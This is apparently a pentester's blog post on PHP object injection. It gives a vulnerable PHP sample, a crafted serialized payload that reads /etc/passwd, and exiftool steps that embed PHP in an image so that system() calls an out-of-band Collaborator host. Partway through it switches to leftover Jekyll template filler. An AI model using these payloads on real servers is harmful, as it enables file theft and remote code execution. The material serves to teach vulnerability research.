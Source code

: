 ```yaml
---
layout: 
title: PHPObjectInjection
subtitle: LFI to RCE
# gh-repo: daattali/beautiful-jekyll
gh-badge: [star, fork, follow]
tags: [WebAppVulnerabilities, Pentesting]
comments: true
---
```


Hello bug-hunters, today we are gonna talk about PHPObjectInjection and leveraging the power of Reflection to modify the serialized objects and access any arbitrary files from the server, later we will learn how to convert it into a RCE (Remote Code Execution). let the hunt begin;

## What is PHPObjectInjection?

Before we talk about the attack, let's undertsand what is Serialization? I hope you must be havinga an idea around it, lets have a revision,  

Serialization is basically converting a set of data structure or the objects into a stream of bytes to transmit it to a memory, a database, or a file. The main advantage of this technology is to save the state of an object in order to be able to recreate it whenever needed, eg. video games, etc.

**Areas of Risks**

Along with the advantage this technology also has its disadvantages. This vulnerability could occur when a user-supplied input is not appropriately sanitized before being passed to the unserialize() PHP function. Since PHP allows object serialization, a malacious actor could pass ad-hoc serialized strings to a vulnerable unserialize() call, resulting in an arbitrary PHP object(s) injection into the application scope.

In order to successfully exploit a PHP Object Injection vulnerability the following two conditions must be met:

   1. The application must have a class which implements a PHP magic method (such as __wakeup or __destruct) that can be used to carry out malicious attacks, or to start a “POP chain”.
   2. All of the classes used during the attack must be declared when the vulnerable unserialize() is being called, otherwise object autoloading must be supported for such classes.

## Attack Story

During a recent Pen Test I came across an interesting piece of PHP code that could lead to RCE, but the exploitation was bit tricky. After spending some sleepless nights trying to break this code, I identified that both application and system level code execution was possible using the vulnerability.

The vulnerable Code:

    /*<?php
  class HTMLFile
  {
    public $filename='help.html';
    public $bla =  1;
    public function __toString()
    {
        return '<iframe src=' . $this->filename ."></iframe>";
    }
  }
  class IncludeFile
  {
    public $filename = '';
    public function __toString()
    {
        include $this->filename;
        return "<br /><br />";
    }
  }
    if (isset($_GET['file'])){
    $htmlobject = unserialize(base64_decode($_GET['file']));
  } else {
    $htmlobject = new HTMLFile();
  }
  ?> 
    <?php echo $htmlobject; ?>*/

In the above code, a user controlled value can be passed on to a PHP un-serialization function. The application accepts a "filename" which gets called, and the output is then fed to php unserialize module. With the above bug both application level and system level code executions is possible. For exploiting this vulenarability both the conditions are satisfied. 

**Serialization example:**

Serializing a 3 char string array

![](https://github.com/InfoSecAntara/theantaramane/assets/sample_serializled_code.png)

**Understanding the serialized string**

![](https://github.com/InfoSecAntara/theantaramane/assets/understanding_serialzed.png)


In our case, I found an instance where the "file" parameter was carrying a base64 encoded payload, later identified to be a serialized object as following;

![](https://github.com/InfoSecAntara/theantaramane/assets/instance.png)

Deserialized form:

   "O:8:"HTMLFile":1:{s:8:"filename";s:9:"help.html";}"

At the response side if you'd see, we have another code which has class named "IncludeFile" a vulnerable function "filename" and a magic function "function __toString()", let's make our own payload

This is our payload; pretty easy to understand, I have just replaced the class name, make sure the string char lengths are exactly matching to that string name as follows;

   O:11:"IncludeFile":1:{s:8:"filename";s11:"/etc/passwd";}

This is cool, let's base64 encode it; and boomm!! it worked

![](https://github.com/InfoSecAntara/theantaramane/assets/img/etc_passwd.jpg)

Using the power of reflection we were able to modify the serialized objects and access any arbitrary files from the server!! Ins't this amazing?? 

Let's move on to RCE!

So I had a file upload functionality, and this functionality only allows the image filesto be uploaded, how this can e tirned into a Remote Code Execution??

   1. Create an Image file with PHP code using exif or any other image utility tool 
   2. Upoad the file and locate the path
   3. Utilize LFI include image file and make an Out of Band call to confirm the code execution
   4. Make use of the shell uploaded and run arbitrary commands 

We will be using exif tool with the following command:

   "exiftool -Comment='<?php system("nslookup 4lqd7k2ulofzkiwzv0m5gf7qohu8ix.burpcollaborator.net"); ?>' beingsecure.jpeg"








How about a yummy crepe?

![Crepe](https://s3-media3.fl.yelpcdn.com/bphoto/cQ1Yoa75m2yUFFbY2xwuqw/348s.jpg)

It can also be centered!

![Crepe](https://s3-media3.fl.yelpcdn.com/bphoto/cQ1Yoa75m2yUFFbY2xwuqw/348s.jpg){: .mx-auto.d-block :}

Here's a code chunk:

~~~
var foo = function(x) {
  return(x + 5);
}
foo(3)
~~~

And here is the same code with syntax highlighting:

```javascript
var foo = function(x) {
  return(x + 5);
}
foo(3)
```

And here is the same code yet again but with line numbers:

{% highlight javascript linenos %}
var foo = function(x) {
  return(x + 5);
}
foo(3)
{% endhighlight %}

## Boxes
You can add notification, warning and error boxes like this:

### Notification

{: .box-note}
**Note:** This is a notification box.

### Warning

{: .box-warning}
**Warning:** This is a warning box.

### Error

{: .box-error}
**Error:** This is an error box.
